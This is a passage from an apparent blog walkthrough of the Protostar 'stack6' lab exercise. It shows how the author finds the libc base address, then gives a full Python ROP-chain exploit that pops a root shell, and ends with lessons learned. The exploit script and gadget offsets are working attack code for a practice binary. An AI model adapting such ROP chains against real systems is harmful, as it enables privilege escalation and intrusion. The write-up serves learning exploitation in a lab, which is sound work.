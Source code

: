 ```bash
$ ps aux | grep -e '[s]tack6'
root      2265  0.0  0.0   1536   320 pts/1    S+   01:37   0:00 /opt/protostar/bin/stack6
# cat /proc/2265/maps
....
b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so <-- this
....
```

So it looks like libc is loaded at base address `0xb7e97000`. Putting all of this together, here's my final exploit:

```python
import struct
import sys

def l(n):
    lib_c_base = 0xb7e97000
    return p(lib_c_base + n)

def p (i):
    return struct.pack('I', i)

padding = "A" * 80
pop_edx = l(0x1a9e)
NULL="\x00\x00\x00\x00"
add_esp_12 = l(0x3900e)
tmpsh_str = "/tmp/sh\x00\x00\x00\x00\x00"
push_esp = l(0xc24f7)
dec_ebx = l(0x12acce)
add_ecx_ebx = l(0xcaf24)
set_eax_interrupt = l(0x97193)

fmt = "{0}{1}{2}{3}{4}{5}{2}" + "{6}"*9 + "{8}" + "{6}"*7 +"{7}"
payload = fmt.format(padding, pop_edx, NULL, add_esp_12, tmpsh_str, push_esp, dec_ebx, set_eax_interrupt, add_ecx_ebx).strip()
sys.stdout.write(payload)
sys.stdout.flush()
```

Notice above that my target is `/tmp/sh`, not `/bin/sh`. I had problems getting `/bin/sh` to work and get an active session, so instead I compiled my own program and made it verify my shinny new root access :)



# --[ CLOSING THOUGHTS ]

Finally the end! I think writing this post was as long as learning to do the exploit!

Some takeaway lessons that I found the hard way:

* NULL pointer != pointer to NULL; I got bit hard by this one, as a lot of blogs mentioned that ECX could be null so I just set it to NULL. Instead it want's to be a pointer to NULL. 
* `push _arg_ ; ret ;` instructions are the devil. `ret` will return to whatever we just, so generally these instructions are not the most useful. 
* gdb will mess you around. Twice for me, once when I was looking for the offsets of my variable in ret2libc and then when I was trying to find out the libc base for my ROP-chain.
* all bytes are 8 bits, but not all bytes are equal. We were lucky here with exploiting `gets`, but in general we would not be able to freely put NULL bytes into the input.
* I wasted a lot of time trying to decide between python 2 and 3. God damn.
